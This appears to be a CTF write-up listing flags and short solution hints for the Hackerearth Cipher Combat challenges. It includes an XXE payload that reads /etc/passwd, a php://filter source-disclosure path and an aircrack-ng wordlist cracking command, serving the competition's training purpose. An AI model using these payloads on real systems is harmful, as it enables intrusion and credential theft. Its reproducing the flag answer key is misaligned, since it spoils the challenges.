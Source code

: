 
Flags of Cipher Combate CTF Hackerearth

### 1. Reverse Password		--> using 'strings'
`HE{W0rK_H@rD_pl@y_Hard3R}`

2. Play and Win		--> using 'strings'
`HE{You_are_a_tic_tac_toe_Ch@mpion}`

3. Welcome !!
`HE{Welcome_to_Cipher_Combat}`

4. QR-Code!
`HE{Ahhhh!_Y0u_@r3_0N_4!gH7_Tr@cK}`

5. Neighbours WiFi !!!		-->  used stegcracker
`HE{7h!s_!$_$tegn0grPHy}`

6. BASE
`HE{K33p_Calm_@nd_Ca4ry_On__Y0U_are_Do!ng_a_Great_j0B}`

7. Rotate
`HE{Now_You_Know_How_To_Rotate}`

8. CrackME
`HE{You_@re_@_Zip_Cracker}`

9. ReadMe
`HE{YoU_are_Absolute_Beginner}`

10. Ping
`HE{j@v@_c0d3_1s_m0r3_und3rst@nd@bl3_th@n_sm@l1}`

11. My Fav song 	-->  https://pastebin.com/QZZAUGPZ
`HE{4ud10_fil3s_c4n_h1d3_d4t4}`

12. Three-words
`HE{talkative_racker_mainstream}`

13. Barden   --> image inside image --> reverse brainfuck (x="brainfuck"[::-1])
`HE{br4inst3gogr4phed}`

14. Merge-Me	--> mergecap -w outputfile.pcapng *	/ cat `ls` > x.pcap
`HE{$up3r$3cr3Tu$3R}`

15. Crack-Network  		-->  aircrack-ng file.cap -w WORDLIST
`HE{budaksetan}`

16. NoTe 		--> binwalk -e challenge.odt
`HE{h1dd1ng_1nf0_1n_s3cr3t_pl@c3}`

17. HIDDEN
`HE{Y0u_G0t_50M3_5K1lLs}`

18. Lame Virus
Decompress UPX-compressed

>cmd: <p> upx -d -o file lame-virus.exe

`HE{an0th3er_cl4ssic_m4lwar3}`

19. Scroll-Dispatched

use CrypTool then Scytale Cipher with number of turns 5

`HE{i7_n3Ver_g3ts_0ld}`


# Web Challenges

20. Lost Cred
just need to add the xml code with some parameter, given as hint in website source code.
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<creds>
	<user>&abc</user>
	<pass>asdf</pass>
</creds>
```

`HE{eCC82cC8CB5fef277401a0A787d1CE1b9f65644F4ef956d5AEfC9fa63A21c842}`

21. 2FA
First do the php filter then code review and found sqli and tried to find valid username
```
/index.php/php://filter/convert.base64-encode/resource=vault
```
`HE{wh4t_y0u_br0k3_Da_vAuLt_4ga1n}`
-----------------------------------------------------
